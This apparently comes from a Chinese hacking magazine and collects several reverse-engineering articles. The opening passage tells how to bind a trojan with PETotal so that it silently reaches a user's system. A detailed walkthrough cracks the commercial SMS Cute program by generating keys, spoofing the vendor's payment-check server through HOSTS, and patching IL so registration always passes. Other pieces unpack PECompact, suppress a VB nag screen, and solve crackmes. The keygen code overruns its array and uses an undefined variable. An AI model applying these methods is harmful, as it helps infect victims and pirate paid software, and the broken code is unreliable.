除此之外，PETotal还可以设置生成文件的动作，包括“释放隐藏的文件到硬盘”和“在内存中运行隐藏的文件”，不过这两个动作只对绑定文件为PETotal程序文件的时候才有效。设置完毕后点击“确定”按钮，软件就会要求我们选择生成文件的保存路径，随意设置一个路径后就可以看到捆绑生成的文件了。当用户打开生成的绑定文件，如果选择了“在内存中运行隐藏的文件”，那么目标文件就会和隐藏文件同时打开运行；如果选择了“释放隐藏的文件到硬盘”，那么就会在磁盘里面发现一个隐藏文件，不过我觉得还是不要选择这个选项比较好。就这样，我们的木马程序就悄无声息的进入到用户的系统中了。


图4

（文章中涉及到的PETotal、NovaLite2.6 CN，已经收录在了光盘中）

## 实例讲解如何寻找加密IAT及应对方法

对于研究逆向技术的同学来说，壳应该是再熟悉不过了，当然很多人还是停留在熟悉的边缘，其实本人觉得脱压缩壳和简单的加密壳是一样的，只要载入OD一步一步走，避开所有陷阱，到达OEP，还有DUMP再修复就可以了。但是更高一个层次的加密壳会……


对IAT进行加密，就算我们到达了OEP，DUMP之后还是不能修复，这次我就以PECompact 2.x -> Jeremy Collake为例来讲解如何寻找加密IAT的地方以及如何应对。

这是最后一次写入的地方，我们可以看到指令把eax的值传给了0046612C这个地址，我们来看eax的值是多少，是009D0000。第一个被加密的IAT的值也是009D0000，因此可以推断程序在执行第一个IAT函数时会跳到009D0000对应的代码段。修复IAT时应重点关注EAX的来源，如图3。

我们先按常规脱壳步骤操作，先到OEP。由于过程较简单，这里不再展开。到达OEP后如有困难，可通过查找二进制代码到达相关位置。

```
00462774  55            push ebp
00462775  8BEC          mov ebp, esp
00462777  83C4F0        add esp, -10
0046277A  B834254600    mov eax, 00462534
0046277F  E86034FAFF    call 00405BE4
00462784  A1A4414600    mov eax, dword ptr [4641A4]
00462789  8B00          mov eax, dword ptr [eax]
0046278B  E8902DFFFF    call 00455520
```


这里把EAX压栈，然后CALL。给Push EAX处下断（建议硬件断点），重载程序后可看到EAX指向IAT函数。继续跟进并定位到关键语句：`003F04E1 8BC7  mov eax, edi`。单步后确认EDI=009D0000，将该语句NOP后可把正确IAT地址传递回来。

然后DUMP，并使用importREC修复。很多情况下会无效（如图1），下面给出处理加密IAT的方法。

首先保存无效IAT信息，记下第一个无效IAT的RVA地址。图中可见为0006612C，因此其物理地址为0046612C（00400000+0006612C）。载入程序后在命令行输入对应地址，并对相关dword下硬件写入断点，多次F9后到达最后一次断下处（如图2）。


这个方法是基于实操总结出来的。希望大家多动脑、多动手，写出自己的原创内容。

## 记一次复杂的VB提示框修改


最近在学习Unicode控制字符文件名欺骗时，找到一款ICO图标提取编辑工具。每次运行都会出现“未注册用户只能免费使用20次”的提示。虽然超过20次后似乎仍可用，但该提示影响体验，因此决定修改它。

先用Universal Extractor解包安装程序（UNRAR3.93打包），再用PEiD查壳，显示为ASPack 2.12 -> Alexey Solodovnikov。该壳较弱，可直接通过搜索`popad`定位到关键位置。

## 一、寻找提示框字符串通过内存访问断点来寻找关键位置

这种方法的思路很简单，提示框要显示相关的字符串，就必须对该字符串进行访问，在字符串的内存位置设置断点，可以拦截到访问位置。不过VB程序的字符串一般使用OD中自带的字符串查找插件很难找到，于是我借用C32ASM直接搜索PE文件中的字符串。

使用C32ASM打开脱壳后的程序，按CTRL+F搜索Unicode字符串“注意”（提示框提示的字符串关键字），如图5所示。其物理偏移地址为0x8a58，然后我们使用LordPE载入脱壳后的程序，单击“FLC”计算该物理偏移地址所对应的VA地址（虚拟内存地址），如图6所示，其虚拟内存地址为00408a58，退出LordPe，使用OD载入脱壳程序，在“命令行”中输入：hr 408a58，在此内存位置下硬件访问断点，运行程序，断到如下代码处：

```
770F4CA5  F3:A5            rep movs dword ptr es:[edi],dword ptr ds:[esi]
770F4CA7  8BCA             mov ecx,edx
770F4CA9  83E1 03          and ecx,3
770F4CAC  F3:A4            rep movs byte ptr es:[edi],byte ptr ds:[esi]
770F4CAE  5F               pop edi
770F4CAF  ^ EB BF          jmp short OLEAUT32.770F4C70
770F4CB1  33C0             xor eax,eax
770F4CB3  ^ EB C9          jmp short OLEAUT32.770F4C7E
```

OD提示在OLEAUT32的地址空间中，取消断点，按ALT+F9提示框弹出，无法定位到执行提示框的位置，此方法首先被枪毙。

## 二、对提示框函数下断点，寻找提示框调用的关键位置

这种方法相信大家都很熟悉，就是下 API 函数断点。不过 VB 程序难在很多函数是我们所不熟悉的，这里推荐通过加载可执行模块定位 VB 程序的 API 函数（不用记函数名，大体上了解就可以了）。首先使用 OD 载入程序，按 ALT+E 打开“可执行模块”窗口，如图7所示。

双击“msvbvm50.dll”进入该 DLL 的虚拟内存地址空间，然后在 OD 中点击右键选择“查找”→“当前模块中的名称（标签）”，如图8所示。

在“名称”窗口中寻找到 rtcMsgBox 函数，按 F2 下断，按 F9 运行程序，程序断在了如下位置处：

```
740F405A  55                push ebp
740F405B  8B4424 14         mov eax,dword ptr ss:[esp+14]
740F405F  8BEC              mov ebp,esp
740F4061  83EC 48           sub esp,48
740F4064  66:8338 0A        cmp word ptr ds:[eax],0A
740F4068  53                push ebx
740F4069  56                push esi
740F406A  57                push edi
...
```

取消断点，按 ALT+F9 返回程序领空，程序再次弹出了提示框。OD 无法断下来，看位置应该是进入了 rtcMsgBox 函数的虚拟地址空间。函数调用一般是 call rtcMsgBox，这个过程会先将下面地址压入栈中，因此可以逆向根据压入地址定位到调用 rtcMsgBox 的位置。

重新载入脱壳后的程序，bp rtcMsgBox 下 int3 断点，此时不要急着返回，查看栈空间，如图9所示。

返回地址为 0x7411e7c2，按 F2 取消断点，按 Ctrl+G 跳转到该位置处：

```
7411E7AF  0BC0            or eax,eax
7411E7B1  0F84 78790000   je msvbvm50.7412612F
7411E7B7  0FB77E 02       movzx edi,word ptr ds:[esi+2]
7411E7BB  83C6 04         add esi,4
7411E7BE  03FC            add edi,esp
7411E7C0  FFD0            call eax
7411E7C2  3BFC            cmp edi,esp
7411E7C4  0F85 5B790000   jnz msvbvm50.74126125
7411E7CA  33C0            xor eax,eax
```

我以为上面的“or eax,eax”就是判断的关键代码，想将其直接修改为 jne，但是发现此时程序还是在 msvbvm50.dll 的虚拟地址空间中，修改 DLL 文件的做法好像不对。随后在 7411E7B1 处按 F2 下断点并重新载入，跟进 call eax 后继续分析，最终该方法再次被“枪毙”。

## 三、修改 VB 资源，让 OD 找到字符串

因为以前也搞过 VB 的程序，在查找字符串时可以通过修改 VB 资源文件中的一些字符串，再使用 OD 的字符串查找功能可以找到关键字符串。首先运行 GetVbRes，打开脱壳的程序，单击“双字节资源”，发现了提示框显示的信息，如图10所示，双击字符串并修改后可继续定位。

愈修改，再次使用OD载入程序，还是找不到字符串，仔细分析字符串相关的指令，没有一条是操作408a58处的字符串，看来这种方法也不是万能的。

郑成功告诉我们“失败是成功之母”，总结上面几种失败的方法，发现对于VB程序来说，我们不可能找到一个“关键的位置”，同时程序一开始就会进入msvbvm50.dll的地址空间，即便我们能找到弹出提示框的“关键位置”，修改运行时库文件总是不合适宜的，因为DLL文件在Windows是共享库，多个程序共同使用，如果作了修改，其它程序也不也受影响了，这点“公共道德”我还是有的。

## 四、修改输入表避免rtcMsgBox函数加载到内存

在经历上面的多次郁闷后，重新整理了下自己的思路，程序本身要显示提示框，那必须得调用rtcMsgBox，这个函数首先由该程序的输入表中指出，PE加载器加载时会定位到msvbvm50.dll中该函数地址，并将其地址保存到IAT中，如果我们将程序的输入表进行修改，程序运行时不加载rtcMsgBox函数或者加载一个根本用不到的API函数，是不是就可以让程序不显示烦人的提示框了呢？事实证明这个方法是可取的。

使用LordPe加载脱壳后的程序，单击“目录”按钮，在弹出的窗口中单击“导入表”后面的“...”按钮，选中“msvbvm50.dll”，定位到函数rtcMsgBox函数，因为输入表的结构是一个数组，该结构数组的最后一个元素是全0结构，所以我们不能将rtcMsgBox的结构都修改为0，因为这会导致PE加载器在加载DLL时访问0x00000000的空间，这会导致一个0xc0000005的内存异常，程序必然运行不起来。所以我们需要找一个等于rtcMsgBox字符串数的函数来替换rtcMsgBox，经过查找发现rtcErrObj函数比较适合（字符数都为9），于是先记录rtcErrObj的IMAGE_IMPORT_DESCRIPTOR相关信息，如图11所示，然后定位到rtcMsgBox函数将其信息修改为rtcErrObj的信息，确定后“保存”退出LordPe即可。

这时再运行程序，终于不会再弹出那烦人的提示框了，不过程序中其它调用该函数的功能也无法使用了，好在修改后，程序的主要功能都可以使用，只不过一些无用的注册帮助信息无法显示了。

到此，终于完成了预期的目标，在整个过程中不难发现VB程序有时候真的很BT，要学会根据不同的程序使用不同的方法，活学活用永远都是需要保持的，好了，文章就到这里，希望对朋友有所帮助。（文章中涉及到的getvbres、uniextract161以及目标程序，已经收录在了光盘中）

# 八荣昌盛的注册码机

木木

相信各位叉子的假期生活一定很精彩吧！眼看很快就要结束了，大家可要抓紧时间好好的享受啊！虽然我们的假期生活已经是很丰富多彩了，但也不会介意我再给大家的假期生活再重彩浓墨一笔吧，（我仿佛听到小菜们齐声喊道“是”，呵呵，我可以狠狠的虚荣了一把），所谓来着不拒嘛！在此我就宣布，在暑假结束之际，为了极大的丰富叉子们的暑假生活，我推出破解之第二进阶——编写注册码机，以供各位叉子享受。

好了，我们正式开始吧，所谓功欲成其事，必先利其器。那么在开始破解前，我们先把自己的工具整理一下，和以往一样，OD依然是今天的主角，那么和他搭配的PEID也是必须的，只不过今天还要用到另外一个工具——VC编译器，因为要编写注册机，因此他也是必须的，另外还需要Crackme一个（这个光盘里会提供的），叉子们的工具都准备齐了吗？相信这些东西都是大家的日常必备吧！好了，既然万事俱备，我们就来刮东风吧！

按照常理，我们一步一步的来（这里提醒一下各位叉子，要养成良好的习惯，破解的时候先做什么，后做什么，应该弄清楚，这样会少走很多弯路！），第一步大家都很清楚就是查壳，如图1所示，看到了吧，是没加壳的，C++编写的程序，接下来我们请出今天的受害者，如图2所示。

这个界面做的很不错，就是缺点音乐。在破解的时候我们可以自己加点音乐。好了，使用OD载入程序吧，接下来依旧是字符串参考，相信大家都会了，我就不再多浪费时间了，结果如图3所示。

注册提示信息马上映入眼帘了，又子们看到了吧！双击之后我们就来到了所谓的核心代码处，如图4所示。找到提示信息后，向前翻一翻就能找到关键跳了。然后就可以爆破了。

不过我们的目的不是爆破，而是编写注册机，因此就必须要把算法分析弄清楚。可是，算法是从哪里开始的呢？我不知道，又子们知道吗？很显然，没人会知道，但我们却知道一点，就是我们输入的注册码肯定参与了算法，程序肯定是先得到我们输入的注册码，然后开始算法的，因此我们需要做的就是找到程序是如何得到我们输入的注册码。这个很简单，大家都知道，要想从编辑框中得到注册码，除了调用函数就是发送消息，因此我们只要在相应的函数或窗口控件上下函数断点或消息断点就可以了。具体的做法我就不多做介绍了，又子们可以参考我发现在X档案S9月份的“让保护代码无处可逃”一文。这个Crackme是通过发送消息得到注册码的，又子们仔细看看图5，就清楚了。

好了，既然程序已经得到注册码了，我们就F8一步一步的走，终于发现算法从这里的代码处开始：

```
00401E5D    51              push ecx
00401E5F    E8 1D030000     call FollowMe.00402180
```

这个CALL中得到了注册码的长度，在前面我们知道了程序是通过发送消息得到注册码的，在发送wm_gettext消息前，发送了wm_gettextlength消息得到注册码的长度，储存在堆栈中。这里的CALL只是简单的将堆栈中的值送入EAX中。实现的比较简单，所以我们不用步入一看究竟了。好了，我们继续往下吧！

```
00401E75    cmp dword ptr ss:[ebp-5C],0E  ; 这里判断注册码的长度是否等于0E，即十进制14
00401E79    jnz FollowMe.00402077          ; 若不等于，就跳向注册失败。
```

这里限制了我们输入的注册码长度必须是14位，大家继续往下看。

```
00401E8B    push 0                 ; 将0压入堆栈
00401E8D    lea eax,dword ptr ss:[ebp-28] ; 让EAX指向堆栈地址0012F53C
00401E90    push eax               ; 将这个地址压入
00401E91    call FollowMe.0040218C ; 我们需要步入这个CALL
00401E96    add esp,8              ; 恢复堆栈
00401E99    mov ebx,eax            ; 让EBX指向注册码
00401E9B    movsx ebx,byte ptr ds:[ebx] ; 将注册码的第0位送入EBX
```

这里的代码貌似是取了注册码的第一位，要想真正弄懂，我们还是步入CALL一起来仔细的看一看吧！

```
0040218C    push ebp
0040218D    mov ebp,esp
```

```
0040218F  push dword ptr ss:[ebp+8]  // 这里压入的还是上面的那个堆栈值
00402192  call FollowMe.0040235C    // 这个CALL里判断注册码是否结束
00402197  pop ecx                    // 这里将压入的上面压入的堆栈值弹出，并且堆栈中的数值没发生变化
00402198  add eax,dword ptr ss:[ebp+C] // 这里的EAX是指向注册码的，这里的堆栈中就是上面压入的那个0
0040219B  pop ebp
0040219C  retn
```

上面的代码就是取注册码的某位的，因为压入的是0，就去了注册码的第0位。我们继续往下看。

```
00401E9E  6A 02        push 2
00401EA0  8D45 D8      lea eax,dword ptr ss:[ebp-28]
00401EA3  50           push eax
00401EA4  E8 E3020000  call FollowMe.0040218C
00401EA9  83C4 08      add esp,8
00401EAC  0FBE10       movsx edx,byte ptr ds:[eax]
00401EAF  03DA         add ebx,edx  // 这里将取得的第0位于第2为相加
```

这里我想就不用再多说了吧，相信叉子们都能看得懂，唯一不同的是程序将取得的第0位与取得的第2为相加。好了，我们继续。

```
00401EB1  6A 04        push 4
00401EB3  8D4D D8      lea ecx,dword ptr ss:[ebp-28]
00401EB6  51           push ecx
00401EB7  E8 D0020000  call FollowMe.0040218C
00401EBC  83C4 08      add esp,8
00401EBF  0FBE00       movsx eax,byte ptr ds:[eax]
00401EC2  3BD8         cmp ebx,eax   // 判断第4位与第0位和第2位的和是否相等
00401EC4  0F85 89010000 jnz FollowMe.00402053 // 若不等，则跳向注册失败！
```

这里取得了第4位，并将它与第0位和第2位的和相比较，判断是否相等，若不等就跳向注册失败。这样我们就已经将整个算法分析完了，因为后面的是依次判断第7位是否等于第1位和第5位的和；第10位是否等于第3位和第6位的和；第13位是否等于第11位和第12位的和，如果这些条件都成立，那就跳向注册成功了。叉子们可以看到算法是很简单的，弄清楚了整个算法后，我们就考虑该如何编写注册机了，如果我们使用一个数组来存放我们的注册码，那么就应该是这样一个数组：`char words[13];`，而且我们的数组中的元素应该满足这样的条件：

```
words[4]=words[0]+words[2];
words[7]=words[1]+words[5];
words[10]=words[3]+words[6];
words[13]=words[11]+words[12];
```

我们输入的任何字符，无论它是字母、数字、特殊字符，只要它们的十六进制满足上面的条件，就能注册成功。那么我们如何产生任意字符呢？这就不得不提到函数rand()的功能了，它是可以产生随机数字的函数。但我们产生任意字符，就需要这样调用这个函数：`words[i] = (rand() % 13)+0x30;` 我把核心代码都写出来了，在添加一下就能写出注册机了，当然我们还缺少一个循环让它去遍历寻找我们想要的注册码，来给它添上：

```
char words[13];
for (int i = 0; i <= 13; i++)
    words[i] = (rand() % 13)+0x30;
words[4] = words[0] + words[2];
words[7] = words[1] + words[5];
serial[10] = words[3] + words[6];
words[13] = words[11] + words[12];
```

好了，现在我们的核心代码就算是完整了，在加入一些必要的语法就行了。下面就是我自己写的程序，以供各位叉子参考：

```
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
int main()
{
    char words[13];
    for (int i = 0; i <= 13; i++)
        words[i] = (rand() % 13)+0x30;
    words[4] = words[0] + words[2];
    words[7] = words[1] + words[5];
    words[10] = words[3] + words[6];
    words[13] = words[11] + words[12];
    printf("%s", words);
    system("pause");
    return 0;
}
```

到这里文章就要结束了，还是来总结一下，其实程序的算法还是很简单的，这也有利于我们编写注册机，毕竟是小菜嘛。我觉得还是要从简单的开始，一步一步的提高才是我们小菜的进步之路，我觉得编写注册机的代码还是亲自输一遍的好，只有自己动手后，才会找到问题，学到更多的东西。

（文章中涉及到的crackme程序，已经收录在了光盘中）

## 再逆DotNet程序

自从有了上次的DotNet程序逆向经历之后，最近经常会遇上DotNet开发的程序。这次逆向了一个叫做（SMS Cute）的程序，中间还出了一些小插曲，所以有必要写出来与大家分享。先来介绍一下这款软件吧，它是一款功能十分强大的短信发送工具，适合每天要发送大量短信而又对那些在手机小键盘上敲击感到厌烦的人所使用，它兼容市面上300多款手机，并提供一个类似邮件客户端的界面来编辑、发送、接收以及管理短信，总之这是一款功能强大且不可多得的好软件。

在开始这次逆向之旅前，我要介绍一下这次用到的几款工具，人们常说“工欲善其事，必先利其器”，可见一款好用的工具可以让你在逆向过程中起到事半功倍的效果。

## 需要用到的工具如下所述：

- **DotNetReflector**：一款DotNet逆向分析不可或缺的工具，具有强大的反编译功能，支持查找和分析，并可通过插件机制增强功能。
- **DotNet Helper v2.0**：支持编译/反编译，适用于 .NET Framework v1.1、v2.0、v3.5，支持 EXE 与 DLL 文件。
- **WebMatrix**：免费的轻量级 ASP.NET 快速开发工具，自带 Microsoft ASP.NET Web Matrix Server，无需安装 IIS 也可发布运行。
- **Smsniff**：轻量级抓包工具，可抓取通过网卡流出的数据包。

下面我们就正式开始本次的逆向。首先安装软件（需要DotNet环境支持），然后使用“PEID”检查软件加壳情况，显示如图1所示。从图1结果来看，软件没有加壳。


使用“DotNetReflector”载入程序依次打开，可以看到如图2所示结果。由此可以看出程序没有使用名称混淆，仔细观察可以看到一个命名为“Registration”类。


打开“Registration”类，可以看到类内部定义的一些方法和函数，如图3所示。从字面意思可以大致理解这些过程的含义，首先来看一下“GenerateKey”这个函数，它接收一个字符串值，经过内部变换后又返回一个字符串值。


由函数名来推测有理由断定这是关键的注册码计算算法。于是打开Visual Studio 2008新建一个C#工程，并在form1上放置如图4所示控件。然后将“GenerateKey”函数完整代码贴入工程，在“GET”按钮事件处理中加入调用代码，运行程序并输入用户名，可得到类似“DEL3U-X3224-JRYH0”的执行结果。

```
csharp
textBox2.Text = this.GenerateKey(textBox1.Text.Trim());
```


点击“register”按钮弹出了如图5所示的提示。


图5

注册码非法？难道是哪里出了问题吗？使用“DotNetReflector”继续研究“Registration”类中的过程，会看到如下代码：

```
public bool IsValidKey(string email, string key)
{
    this.strKey = key.Trim();
    string str = this.GenerateKey(email.Trim());
    return (key.Trim().StartsWith(str.Substring(0, str.Length - 3)) && str.StartsWith(key.Trim()));
}
```

从字面的语义来看，这是判断注册码是否有效的一个函数，难道是上面的计算过程中少了什么吗？于是修改上面代码并将此函数中的代码加入到“GET”按钮的响应代码中以用其来检测一下计算得到的注册码是否正确，并修改界面添加一个“textbox”控件，代码如下所示：

```
textBox2.Text = this.GenerateKey(textBox1.Text.Trim());

// 原有代码
string key = textBox2.Text;
this.strKey = key.Trim();
string str = this.GenerateKey(textBox1.Text.Trim());
bool result = (key.Trim().StartsWith(str.Substring(0, str.Length - 3)) && str.StartsWith(key.Trim()));
textBox3.Text = result.ToString();
```

再次按“F5”运行程序，并获取计算结果如图6所示。


图6

从执行的结果来看，所计算出来的注册码是没有问题的，判断注册码是否有效的结果是“True”，说明注册码正确。那问题是出在哪儿呢？只好继续研究程序代码，在“Registration”类中有如下的函数：

```
public bool IsRegistered()
{
    bool flag = false;
    try
    {
        RegistryKey key3 = Registry.LocalMachine
            .OpenSubKey("SOFTWARE", false).OpenSubKey("Microsoft")
            .OpenSubKey("DbpathSms");
        if ((Convert.ToString(key3.GetValue("R")) == "1") && Misc.Query4Payment(Convert.ToString(key3.GetValue("LT")).Trim()))
        {
            flag = true;
        }
    }
    catch
    {
        return false;
    }
    return flag;
}
```

函数先设置了一个标志，然后从注册表中取出“R”的值判断是否为“1”，并且取出“LT”的值传给一个函数处理，跟进此函数会看到如下代码：

```
public static bool Query4Paymcnt(string _email)
{
    try
    {
        return (QueryGeneral(Glb.URL_QUERY4PAYMENT + "&email=" + _email.Trim()).Trim() == "yes");
    }
    catch (Exception)
    {
        return false;
    }
}
```

由代码可知，此函数调用QueryGeneral函数并判断其结果是否等于“yes”，通过查看代码获取了其中“Glb.URL_QUERY4PAYMENT”的定义，如下所示：

```
public static string URL = "http://www.sodensoft.com";
public static string URL_QUERY4PAYMENT = (URL + "/query4payment.aspx?prod=smscute");
```

将以上字符串连接就得到了如下的字符串：“http://www.sodensoft.com/query4payment.aspx?prod=smscute&email=xxxxxx@163.com”。直接在浏览器中提交这个链接，返回结果为“no”，由此可知，“Query4Payment”函数返回了“false”，所以导致“IsRegistered”函数的结果也为“false”，这也就是最终导致注册失败的原因了。

```
csharp
public static string QueryGeneral(string _url)
{
    string str = "no"; // 初始化串值
    try
    {
        HttpWebRequest request = (HttpWebRequest)WebRequest.Create(_url);
        request.Timeout = 0x2710;
        HttpWebResponse response = (HttpWebResponse)request.GetResponse();
        Stream responseStream = response.GetResponseStream();
        StreamReader reader = new StreamReader(responseStream);
        str = reader.ReadToEnd();
        reader.Close();
        responseStream.Close();
        response.Close();
        request.Abort();
        return str;
    }
    catch (Exception)
    {
        return str; // 访问失败则返回 no
    }
}
```

知道了以上这些，第一反应就是在本地搭建一个服务器来跳过验证……通过 Google 搜索找到了 “WebMatrix”，打开安装目录，看到有个文件名为 “WebServer.exe” 的程序，根据提示写出批处理并保存为 start.bat。

保存成名为 start.bat 的文件放于此目录中用于启动 WebServer：`webserver /port:80 /path:"c:\wwwroot\app" /vpath="/app"`。再到 C 盘根目录下新建文件夹 `wwwroot` 及其下层 `app`，并放置页面文件 `query4payment.aspx`（内容为 “yes”），再修改 HOSTS 文件添加：`192.168.1.105 www.sodensoft.com`。

一切就绪后，双击运行程序仍会闪退。通过抓包可知启动过程中还访问了其它页面，推测由于某些参数获取失败导致程序退出。随后先启动软件再添加 HOSTS 指向，填入算出的注册码并点击 “Register” 按钮，弹出如下对话框，说明软件注册通过。


到这里文章似乎已经完成了，但是每次都要使用本地模拟服务器再启动软件很不方便，所以只好从修改程序流程入手。请出 “DotNet Helper v2.0” 这款工具，它可以将 DotNet 开发的程序（包括 .exe 和 .dll）反编译成 IL 代码，并将修改后的代码回写文件。


使用 “DotNet Helper” 加载文件并点击反编译，会在安装目录生成多个文件。查看扩展名为 `.il` 的文件即可。通过分析可知最佳修改位置应在 “Registration” 类的 “IsRegistered” 中，只要其返回值为真即可判定注册成功。使用文本编辑器打开 `SMS Cute.il`，搜索 “IsRegistered” 定位到如下 IL 代码处：

```
il
.method public hidebysig instance bool ...
```

```
IsRegistered() cil managed
{
// 代码大小 122 (0x7a)
.maxstack 3
.locals init (bool V_0,
    class [mscorlib]Microsoft.Win32.RegistryKey V_1,
    class [mscorlib]Microsoft.Win32.RegistryKey V_2,
    class [mscorlib]Microsoft.Win32.RegistryKey V_3,
    string V_4,
    string V_5,
    bool V_6)
*IL_0000: ldc.i4.0
IL_0001: stloc.0
.try
{
    // 代码省略
    // Try之间的代码如果顺利执行则flag被赋值为true
} // end .try
catch [mscorlib]System.Object
{
    IL_006f: pop
    *IL_0070: ldc.i4.0
    IL_0071: stloc.s V_6
    IL_0073: leave.s IL_0077
} // end handler
IL_0075: ldloc.0
IL_0076: ret
IL_0077: ldloc.s V_6
IL_0079: ret
} // end of method Registration::IsRegistered
```

通过查询指令含义得知：

ldc.i4.0：此为常数载入指令，用于将其参数入栈（必须是常数）。本指令为载入0。

stloc.0：此局部变量保存指令，用于从栈顶取值并存入局部变量。

ldloc.0：局部变量载入指令，载入第一个（序号0）局部变量并入栈。

由此可知，只需要将指令ldc.i4.0改为ldc.i4.1（即“载入0”改为“载入1”）即可。共有两处（标注*处），修改完毕后保存文件并使用“DotNet Helper”程序对修改后的il文件进行编译，得到了名为“SMS Cute_Output.exe”的程序。执行此程序弹出了程序界面，经过以上修改程序即使是在第一次启动也不会再提示注册了，因为程序在启动的过程中通过frmMain类的Form1_Load函数执行了如下代码：`Glb.IsRegistered = registration.IsRegistered();`，致使检测结果无论如何都会返回“true”，这时的程序已经是注册版本了。

根据“btnRegister_Click”函数中的代码流程，可以看到程序注册成功后会调用“Registration”类的“RegisterRegistration”函数，此函数会在注册表的如下位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\DbpathSms` 添加如下键值：

- "LK"=""  // 用于保存注册码
- "LT"=""  // 用于保存邮箱地址
- "R"="1"   // 此值为1说明软件已注册，为0说明软件在试用期内，为-1说明已过试用期。

如果是第一次运行并选择试用则会调用“Registration”类的“RegisterWhenFirstRun”函数，此函数会在注册表的如上所示的位置添加如下键值：

- "Detail"=dword:00000005   // 试用开始的日期
- "General"=dword:0000000a  // 试用开始的年份
- "R"="0"
- "Specific"=dword:00000007 // 试用开始的月份

本次逆向到此就结束了，希望读者能从本文中获取些许思路和方法，以丰富自己的逆向思路，并将在以后的逆向分析过程中更加游刃有余。

（文章中涉及到的SMS Cute Installer.msi、OpCodeTable.exe、smsniff.exe、WebMatrix.msi，已经收录在了光盘中）

# keyfile crackme 玖解

By Michael

最近一直在忙，也不知道在忙什么，现在终于闲下来了，于是赶紧拿起调试器，熟悉一下已经生疏的汇编代码。文章是写给刚刚接触破解不久的新手的，所以写的比较啰嗦，高手勿笑。

首先pcid查壳，PC Shrinker 0.71（如图1）。OD载入运行，无任何异常，判断其为压缩壳。入口为pushad pushfd，我们就用ESP定律吧。走过pushfd此时ESP的值为0013FFA0，右键数据窗口跟，来到数据窗口选中右键断点->硬件访问->字，F9运行，来到了popad，popfd。选中调试删除硬件断点。F8单步走，看到mov eax 401000，jmp edx知道跳过去就是OEP啦。dump进程，再用peid查程序，显示是MASM32/TASM32，是汇编编写的。


图1


图2


图3


图4

首先运行程序看一下，能找到什么有用的信息，运行check it显示key file not found!（如图2）可以断定这是个文件保护。对于文件保护我们下文件断点bp CreateFileA，在od命令下下断回车，F9运行程序点check it，程序断下来了，断在801A28，系统的领空，Alt+F9返回到程序的领空，往下看能看到key file not found!，在往上看到一个call，调用createfile，文件参数为keyfile.dat，看到这我们就明白了，必须要有一个名为keyfile.dat的文件，否则就会提示key file not found!我们现在打开WINHEX新建一个文件，字节数先随便输入一个但要记住，以10个字节为例建一个名keyfile.dat的文件保存（如图3）。

在4010E1处下断点，od重新载入，F9运行，程序断下来了，然后F8单步运行。这次跳过了错误提示，调用ReadFile读取文件，如果读取的字节数为空，则提示Error reading file!向下lea edx, dword ptr [40308C]开始指向文件内容，40308c是刚才readfile读取文件保存数据的缓冲区。我们可以用命令行输入d 40308c看下，结果如图4所示，正是我们之前创建的文件数据。

```
0040114E  |> \8D15 8C304000   lea    edx,dword ptr [40308C] ; 指针指向缓冲区首地址

00401154  |. 83C2 05         add    edx,5            ; 指针指向第六个字节
00401157  |. 803A 31         cmp    byte ptr [edx],31 ; 比较是否等于31
0040115A  |. 75 10           jnz    short 0040116C

0040115C  |. 83C2 03         add    edx,3            ; 指针指向第九个字节
0040115F  |. 803A 33         cmp    byte ptr [edx],33 ; 比较是否等于33
00401162  |. 75 08           jnz    short 0040116C
00401164  |. 42              inc    edx              ; 指向第十个字节
00401165  |. 803A 30         cmp    byte ptr [edx],30 ; 比较是否等于30
00401168  |. 74 02           je     short 0040116C
0040116A  |. EB 15           jmp    short 00401181

0040116C  |> 6A 10           push   10               ; Style = MB_OK|MB_ICONHAND|MB_APPLMODAL
0040116E  |. 68 23304000     push   00403023         ; Title = "Error!"
00401173  |. 68 52304000     push   00403052         ; Text = "Invalid key!"
00401178  |. 6A 00           push   0                ; hOwner = NULL
0040117A  |. E8 2F000000     call   <jmp.&USER32.MessageBoxA>
0040117F  ;. EB 15           jmp    short 00401196

00401181  |> 6A 40           push   40               ; Style = MB_OK|MB_ICONASTERISK|MB_APPLMODAL
00401183  |. 68 76304000     push   00403076         ; Title = "Correct!!!"
00401188  |. 68 5F304000     push   0040305F         ; Text = "Correct key! Good job!"
```

0040118D | . 6A 00          push 0  
hOwner = NULL  

0040118F | . E8 1A000000    call <jmp.&USER32.MessageBoxA> ; \MessageBoxA  

00401194 | . EB 00          jmp short 00401196  

00401196 |> FF35 88304000  push dword ptr [403088] ; hObject = 00000094 (window)  

0040119C | . E8 13000000    call <jmp.&kernel32.CloseHandle> ; \CloseHandle  

；invalid key！其次比较第9个字节是否等于33，若不等则出错，最后比较第十个字节是否等于30，若相等则出错，40308c来到数据窗口将第六个字节改成31，将九个字节改成33单步走弹出了correct key！good job！（如图5）。

文章到此结束了。（本文所涉及到的CRACKME6已收录到光盘中）

# 巧为程序修图正名

周玲生

为了确保系统内部信息网络安全畅通，单位最近采取多项措施，做到内、外网有效隔离，积极打造信息安全堡垒。为上司专机配置了双硬盘，再委托电脑公司安装前斯盾隔离卡就是其中措施之一。…（两栏正文）

图1

图2

由于电脑已经进驻上司办公室，再请外来人员进来纠正错误也是不可能的，因此，只有自己亲自动手搞定它。从网上下载安装程序重新安装，发现安装过程并未提供内外网的设置选项。因此，只有修改安装后的程序才能解决问题。

此时，请出WinHex这款利器，用它打开主程序ZSDISL.exe，在其中搜索文本“切换到外网”字样，找到的第一处就是我们必须要修改的字符串，将其修改为“切换到内网”。

```
B5BDCDE2CDF82E2E2E2E2EA3A90-D0A0D0A20CAC7B7F1BDF8D0D0C7D0B3BBBA3BF
→ B5BDC4DACDF82E2E2E2E2EA3A90D0A0D0A20...
```

CAC7B7F1BDF8D0D0C7D0BBBBA3BF”，如图3，最后保存它。

图3

图4

原以为如此则大功告成了，不料，右击系统托盘处的程序图标时，发现菜单显示的还是“切换到外网”字样，如图4。这下偶可傻了眼，因为在WinHex中均未找到相对应可修改的“切换到外网”字符串。在高人指点之下，偶最后找到了PE Explorer，用它再次打开ZSDISL.exe主程序，点击工具栏中的“Resource Viewer/Editor”按钮，双击“RC Data”下的“TFORMGIGI”打开“DFM MODE”，再依次展开“PopupMenu1:TPopupMenu”，找到“N1:TMenuItem”，可以看出它的值为“切换到外网”。

然后用eXeScope打开ZSDISL.exe，在左边栏依次点击“资源”→“RC 数据”→“TFORMGIGI”，再转到右边窗口，找到以下文字如图5：

```
object N1: TMenuItem
Caption = #20999#25442#21040#20869#32593
OnClick = N2Click
end

object N2: TMenuItem
AutoHotkeys = maManual
Caption = #20999#25442#21040#22806#32593
OnClick = N1Click
end
```

将其中的“N1”、“N2”对调个位置，即修改为：

```
